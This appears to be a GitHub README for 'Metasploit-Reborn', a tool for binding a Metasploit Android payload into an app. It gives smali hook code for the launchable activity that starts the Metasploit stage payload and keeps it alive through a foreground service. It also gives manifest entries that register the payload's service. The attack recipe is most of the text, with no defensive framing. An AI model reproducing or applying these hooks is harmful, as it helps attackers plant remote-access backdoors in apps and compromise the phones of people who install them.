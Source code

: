 
Metasploit-Reborn Notes :

<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-21-23.jpg" width=750px height=1000px>
</p>
<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-22-40.jpg" width=750px height=500px>
</p>

### Video Tutorial :
                                                      Metasploit-Reborn in Action
      
<b>      
   
https://user-images.githubusercontent.com/46685308/120068977-fb660680-c0a0-11eb-8590-e414eda0ce91.mp4
   
</b> 
         

                                                       Hook Point 

At Launchable Activity

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V	
new-instance v0, Landroid/content/Intent;
const-class v1, Lcom/example/swagkarna/ForegroundService;
invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
.local v0, "serviceIntent":Landroid/content/Intent;
const-string v1, "inputExtra"
const-string v2, "Warning!!!.Dont Close This App"
invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Ljava/lang/String;)Landroid/content/Intent;
invoke-static {p0, v0}, Landroidx/core/content/ContextCompat;->startForegroundService(Landroid/content/Context;Landroid/content/Intent;)V

``` 

At Manifest Level  :

```
Add Permission
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
----------------------------------------------------------------------------------------------------------------------------------------
<service android:enabled="true" android:exported="true" android:name="com.example.swagkarna.ForegroundService"/>
<service android:enabled="true" android:exported="true" android:name="com.metasploit.stage.MainService"/>		
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------


<h1>I Love Kali-Linux + Metasploit + Android and Hande-Ercel</h1>

